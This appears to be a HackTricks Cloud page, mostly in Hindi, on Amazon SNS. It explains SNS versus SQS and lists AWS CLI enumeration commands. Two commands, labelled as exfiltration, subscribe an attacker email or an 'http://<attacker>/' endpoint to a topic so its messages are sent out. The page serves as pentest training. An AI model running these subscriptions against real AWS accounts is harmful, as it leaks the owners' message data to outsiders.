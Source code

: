 # AWS - SNS Enum

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## SNS

Amazon Simple Notification Service (Amazon SNS) को **पूर्ण रूप से प्रबंधित संदेश सेवा** के रूप में वर्णित किया गया है। यह **एप्लिकेशन-से-एप्लिकेशन** (A2A) और **एप्लिकेशन-से-व्यक्ति** (A2P) संचार प्रकारों का समर्थन करता है।

A2A संचार के लिए प्रमुख विशेषताओं में **प्रकाशित/सदस्यता (pub/sub) तंत्र** शामिल हैं। ये तंत्र **विषयों** को पेश करते हैं, जो उच्च-थ्रूपुट, **पुश-आधारित, कई-से-कई संदेश भेजने** के लिए महत्वपूर्ण हैं। यह विशेषता वितरित प्रणालियों, माइक्रोसर्विसेज, और इवेंट-ड्रिवन सर्वरलेस आर्किटेक्चर में शामिल परिदृश्यों में अत्यधिक फायदेमंद है। इन विषयों का लाभ उठाकर, प्रकाशक प्रणालियाँ **व्यापक रूप से विभिन्न सदस्यता प्रणालियों** को संदेश वितरित कर सकती हैं, जिससे एक फैनोउट संदेश पैटर्न को सुविधाजनक बनाया जा सकता है।

### **SQS के साथ अंतर**

**SQS** एक **क्यू-आधारित** सेवा है जो बिंदु-से-बिंदु संचार की अनुमति देती है, यह सुनिश्चित करते हुए कि संदेशों को **एकल उपभोक्ता** द्वारा संसाधित किया जाता है। यह **कम से कम एक बार डिलीवरी** प्रदान करता है, मानक और FIFO क्यू का समर्थन करता है, और पुनः प्रयास और विलंबित प्रसंस्करण के लिए संदेश संरक्षण की अनुमति देता है।\
दूसरी ओर, **SNS** एक **प्रकाशित/सदस्यता-आधारित सेवा** है, जो **एक-से-बहुत** संचार को सक्षम बनाती है, जिससे संदेशों को **एक साथ कई सदस्यों** को प्रसारित किया जा सकता है। यह **ईमेल, SMS, Lambda कार्यों, और HTTP/HTTPS** जैसे विभिन्न सदस्यता अंत बिंदुओं का समर्थन करता है, और लक्षित संदेश वितरण के लिए फ़िल्टरिंग तंत्र प्रदान करता है।\
हालांकि दोनों सेवाएँ वितरित प्रणालियों में घटकों के बीच डिकपलिंग को सक्षम बनाती हैं, SQS क्यूड संचार पर ध्यान केंद्रित करता है, और SNS इवेंट-ड्रिवन, फैनोउट संचार पैटर्न पर जोर देता है।

### **Enumeration**
```bash
# Get topics & subscriptions
aws sns list-topics
aws sns list-subscriptions
aws sns list-subscriptions-by-topic --topic-arn <arn>

# Check privescs & post-exploitation
aws sns publish --region <region> \
--topic-arn "arn:aws:sns:us-west-2:123456789012:my-topic" \
--message file://message.txt

# Exfiltrate through email
## You will receive an email to confirm the subscription
aws sns subscribe --region <region> \
--topic-arn arn:aws:sns:us-west-2:123456789012:my-topic \
--protocol email \
--notification-endpoint my-email@example.com

# Exfiltrate through web server
## You will receive an initial request with a URL in the field "SubscribeURL"
## that you need to access to confirm the subscription
aws sns subscribe --region <region>\
--protocol http \
--notification-endpoint http://<attacker>/ \
--topic-arn <arn>
```
{% hint style="danger" %}
ध्यान दें कि यदि **विषय FIFO प्रकार का है**, तो केवल **SQS** प्रोटोकॉल का उपयोग करने वाले सब्सक्राइबरों का उपयोग किया जा सकता है (HTTP या HTTPS का उपयोग नहीं किया जा सकता)।

इसके अलावा, भले ही `--topic-arn` में क्षेत्र शामिल हो, सुनिश्चित करें कि आप **`--region`** में सही क्षेत्र निर्दिष्ट करें, अन्यथा आपको एक त्रुटि मिलेगी जो यह संकेत करती है कि आपके पास पहुंच नहीं है, लेकिन समस्या क्षेत्र है।
{% endhint %}

#### अनधिकृत पहुंच

{% content-ref url="../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md" %}
[aws-sns-unauthenticated-enum.md](../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md)
{% endcontent-ref %}

#### विशेषाधिकार वृद्धि

{% content-ref url="../aws-privilege-escalation/aws-sns-privesc.md" %}
[aws-sns-privesc.md](../aws-privilege-escalation/aws-sns-privesc.md)
{% endcontent-ref %}

#### पोस्ट शोषण

{% content-ref url="../aws-post-exploitation/aws-sns-post-exploitation.md" %}
[aws-sns-post-exploitation.md](../aws-post-exploitation/aws-sns-post-exploitation.md)
{% endcontent-ref %}

#### स्थिरता

{% content-ref url="../aws-persistence/aws-sns-persistence.md" %}
[aws-sns-persistence.md](../aws-persistence/aws-sns-persistence.md)
{% endcontent-ref %}

## संदर्भ

* [https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/](https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/)

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाओं**](https://github.com/sponsors/carlospolop) की जांच करें!
* **💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) में शामिल हों या **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर हमें **फॉलो** करें।**
* **हैकिंग ट्रिक्स साझा करें, [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करके।**

</details>
{% endhint %}
